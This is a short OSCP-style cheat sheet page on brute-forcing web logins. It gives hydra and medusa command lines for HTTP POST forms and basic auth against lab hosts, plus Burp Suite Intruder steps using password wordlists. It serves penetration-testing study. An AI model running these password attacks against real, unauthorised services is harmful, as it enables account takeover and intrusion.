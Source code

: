 https://fareedfauzi.gitbook.io/oscp-playbook/password-attack-brute-force/brute-force-service-password

### 

Web[](#web)

hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin

#### 

Logins[](#logins)

Use Burp suite.

- 1.
    
    Intecept a login attempt.
    

- 2.
    
    Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
    

- 3.
    
    Select your payload, your wordlist.
    

- 4.
    
    Click attack.
    

- 5.
    
    Look for response-length that differs from the rest.
    

#### 

HTTP Generic Brute[](#http-generic-brute)

[wfuzz](https://app.gitbook.com/s/-M7fpUiYyw8_p6n2INMN/password-attack-brute-force/:note:c9eaf464-386e-4196-8266-c3e2ccf81711)

#### 

HTTP Basic Auth[](#http-basic-auth)

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/

medusa -h <IP> -u <username> -P <passwords.txt> -M http -m DIR:/path/to/auth -T 10

#### 

HTTP - Post Form[](#http-post-form)

hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
